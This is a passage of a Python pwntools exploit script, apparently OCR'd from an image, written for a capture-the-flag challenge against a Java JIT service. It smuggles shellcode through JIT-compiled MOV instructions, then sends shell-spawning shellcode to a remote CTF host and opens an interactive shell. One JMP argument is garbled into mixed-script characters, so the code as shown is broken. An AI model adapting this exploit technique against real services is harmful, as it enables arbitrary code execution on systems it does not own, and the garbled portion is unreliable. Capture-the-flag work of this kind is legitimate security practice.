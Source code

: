 ```python
    pop rdx
    pop rsi
    xor eax, eax
    push rax
    pop rdi
    syscall
    """)

    jmp = asm("jmp $+3")
    payload = ""
    for i in range(0, len(code), 2):
        num = u32(code[i:i+2]+jmp)
        payload += "MOV(A, {})\n".format(get_num(num))

    payload += "MOV(A, 4096)\n"
    payload += "JMP(᥆᱀০୦০႐꘠꘠੦０᥆꘠꘠୦013)\n"
    payload += "RET()\n"

    p.sendlineafter("result:", payload)
    sleep(1)
    p2 = "A"*53 + asm(shellcraft.sh())
    p.send(p2.ljust(0x1000, "\x00"))
    p.interactive()

# CTF{8röther_m4y_1_h4v3_söm3_nümb3r5}

if __name__ == "__main__":
    context.terminal = ["tmux", "sp", "-h"]
    context.arch = "amd64"

    if len(sys.argv) > 1:
        p = remote("jit.ctfcompetition.com", 1337)
    else:
        p = process("java -cp ./jna-5.3.1.jar:. FancyJIT",
                    stdin=PTY, stdout=PTY, shell=True)
    exploit()
```
